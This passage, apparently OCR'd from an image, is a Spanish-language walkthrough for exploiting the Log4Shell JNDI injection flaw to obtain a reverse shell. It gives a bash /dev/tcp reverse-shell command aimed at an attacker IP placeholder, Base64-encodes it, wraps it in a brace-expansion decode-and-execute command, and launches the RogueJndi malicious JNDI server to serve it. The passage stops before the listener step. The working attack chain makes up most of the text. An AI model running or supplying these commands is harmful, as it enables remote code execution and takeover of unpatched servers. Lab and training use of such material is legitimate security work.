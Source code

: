     La presencia de estos paquetes confirma que el servidor objetivo está procesando la cadena JNDI y tratando de resolverla, lo que indica que es vulnerable.

### 2. Construcción del Payload de Ejecución de Comandos (Reverse Shell)

Para lograr una ejecución de comandos (por ejemplo, una reverse shell), necesitamos que el servidor vulnerable ejecute un comando de nuestro agrado. Es una buena práctica codificar el comando en Base64 para evitar problemas de caracteres o codificación.

**Codificar el comando de reverse shell:**
Usa el siguiente comando para codificar tu payload. Sustituye `[IP_ATACANTE]` por la IP de tu máquina y `[PUERTO_LISTENER]` por el puerto donde Netcat estará a la escucha.

```bash
echo 'bash -c bash -i >&/dev/tcp/[IP_ATACANTE]/[PUERTO_LISTENER] 0>&1' | base64 -w 0
```

* `bash -c '...'`: Inicia un subshell bash para ejecutar el comando.
* `bash -i >&/dev/tcp/[IP_ATACANTE]/[PUERTO_LISTENER] 0>&1`: El comando de reverse shell. Envía stdin/stdout/stderr a través de una conexión TCP a tu IP y puerto.
* `base64 -w 0`: Codifica la salida en Base64. `-w 0` evita el "word wrap" que puede añadir saltos de línea indeseados.

**Ejemplo de salida** (la cadena Base64 generada será diferente cada vez):

```
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOTIvNDQzIDA+JjEK
```

Guarda esta cadena Base64.

**Construir el comando para el servidor JNDI malicioso (ej. RogueJndi):**
El servidor JNDI malicioso (como RogueJndi) necesita recibir un comando de ejecución. Este comando complejo decodificará la cadena Base64 y la ejecutará. Sustituye `[CADENA_BASE64]` con la que obtuviste en el paso anterior.

```bash
bash -c '{echo,[CADENA_BASE64]}|{base64,-d}|{bash,-i}'
```

Este comando usa expansiones de brace (`{}`) y pipes para decodificar la cadena Base64 y ejecutarla como un comando de bash interactivo en el objetivo.

### 3. Fase de Explotación: Ejecución del Servidor JNDI Malicioso y Listener

Ahora, ejecutaremos la herramienta que actuará como nuestro servidor JNDI malicioso y pondremos nuestro listener de Netcat para capturar la reverse shell.

**Ejecutar el servidor JNDI malicioso (ej. RogueJndi):**
Usa una herramienta como RogueJndi (previamente compilada) para servir el payload. Abre una nueva terminal en tu máquina atacante.

```bash
java -jar RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOTIvNDQzIDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "[IP_ATACANTE]"
```
